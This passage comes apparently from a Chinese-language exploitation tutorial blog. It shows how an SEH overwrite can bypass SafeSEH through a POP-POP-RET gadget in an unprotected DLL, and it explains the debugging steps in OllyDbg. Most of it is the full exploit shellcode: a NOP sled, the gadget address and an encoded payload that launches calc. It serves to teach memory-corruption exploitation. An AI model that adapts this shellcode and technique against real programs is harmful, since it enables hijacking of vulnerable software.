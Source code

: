 最终的shellcode如下：

```c
char shellcode[] = 
// 220 nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// PPR's address (in our dll)
"\x12\x10\x12\x11"
// 8 nop
"\x90\x90\x90\x90\x90\x90\x90\x90"
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd";
```

去掉`int 3`并编译后，我们可以在OD中试运行，在加载模块后将断点设在`0x11121012`，然后F9，看到顺利执行到这里，说明覆盖SEH并绕过了主程序的SafeSEH，劫持控制流成功：

![Bildschirmfoto 2018-08-28 um 4.00.52 PM.png]({{ site.url }}/images/0day/F7FFC201164094258EE61B2430607B55.png)

接着，我们单步走到shellcode中：

![Bildschirmfoto 2018-08-28 um 4.01.25 PM.png]({{ site.url }}/images/0day/8FA8146544F59387FA763972C90835AB.png)

可以发现有两个地方需要注意：首先是我们的PPR地址`0x11121012`被当作了指令，幸好它没有影响逻辑流；接着是之前提到的进入`__try{}`时将我们中间填充的8个nop的后4个字节覆盖为了`0x00000000`。幸好，这里也没有影响逻辑流。所以最终可以成功弹出计算器。

测试：
